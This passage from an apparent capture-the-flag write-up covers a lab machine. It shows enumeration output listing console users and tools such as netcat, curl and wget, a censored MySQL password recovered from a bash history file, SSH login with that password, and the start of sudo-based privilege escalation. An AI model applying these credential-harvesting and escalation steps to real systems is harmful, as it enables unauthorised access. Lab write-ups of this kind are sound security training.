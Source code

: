```bash

╔══════════╣ Users with console
drac:x:1000:1000:drac:/home/drac:/bin/bash                                                                                                                   
root:x:0:0:root:/root:/bin/bash

╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                              
/usr/bin/curl
/usr/bin/lxc
/bin/nc
/bin/netcat
/usr/bin/perl
/usr/bin/php
/bin/ping
/usr/bin/python3
/usr/bin/python3.6
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Installed Compilers
/usr/share/gcc-8                             

╔══════════╣ Searching passwords in history files
mysql -u drac -p 'CENSORED'       
```

Well well we hit the jackpot. To confirm this, let's go check the history file ourselves.

```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p 'CENSORED'
```

Should have checked the history file first saved ourselves some time. Anyway, let's try ssh login with these creds.
Success!!

```bash
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
```

No need for the reverse shell any more.

### Privesc from drac to root

```bash
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
